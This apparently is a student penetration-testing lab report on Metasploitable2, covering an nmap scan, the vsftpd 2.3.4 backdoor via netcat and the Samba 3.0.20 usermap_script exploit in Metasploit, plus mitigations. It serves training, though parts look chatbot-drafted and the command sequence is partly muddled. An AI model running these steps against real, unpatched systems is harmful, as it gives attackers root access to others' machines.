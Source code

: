 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) 

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/34c3b8c116d0e423931981bfdc966a7bf373244b/Pentest-Labs/screenshots/nmap_version_port_scan.png)

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/fa77757b69c17942f5b6ac69fa3ea0955e164f4c/Pentest-Labs/screenshots/nc_user_pass_exploit.png)

* After login, connect to port 6200 to get a shell:
  
```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", "id", and "ls" command were ran to show root access and files.

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/0c13deda10d5ea5146ad7055da298159402aafca/Pentest-Labs/screenshots/nc_root_access.png)

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**
   
* Metaploit Commands used:
```bash
>msfconsole
>use auxiliary/scanner/smb/smb
>use 11 
>show options
>set RHOSTS <target_ip>
>run
	(shows Samba 3.0.20-Debian)
>searchsploit samba 3.0.20
	 (shows 'Username map script' Command Execution)
>grep samba search username map
>use 3
>show options
>set RHOSTS <target_ip>
>exploit
>whoami
>ls
```
* Start Metaploit
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/b570e5ba232e22ab15fc6f7dff531a7cdd4212a1/Pentest-Labs/screenshots/msf_scanner.png)

3. Find an auxiliary scanner to find the Samba SMB _version_ and set the RHOSTS to <target_ip>. Running the scan shows "Samba 3.0.20-Debian"

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/df12a31297b9d23b36adfedc573c06e31cf5f633/Pentest-Labs/screenshots/msf_smb_version.png)

4. In a new CMD, usging 'searchsploit' search for "samba 3.0.20" (I chose "'Username' map script' Command Execution" exploit).

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/c1fdf8dc6495a39cf7f56d3a0ed266c3384fa518/Pentest-Labs/screenshots/searchsploit_samba_version.png)

5. From the auxiliary(scanner/smb/smb_verion) enter "grep samba search username map". This shows "exploit/multi/samba/usermap_script" with an exploit rating of "excellent".

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/72c9435708222e837350735acab4f088eebe68bd/Pentest-Labs/screenshots/msf_grep_samba.png)

6. Select "exploit/multi/samba/usermap_script" and show options and set RHOSTS to <target_ip>. Then run the exploit.



7. **Result:** Obtained root privileges via a shell.


---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```
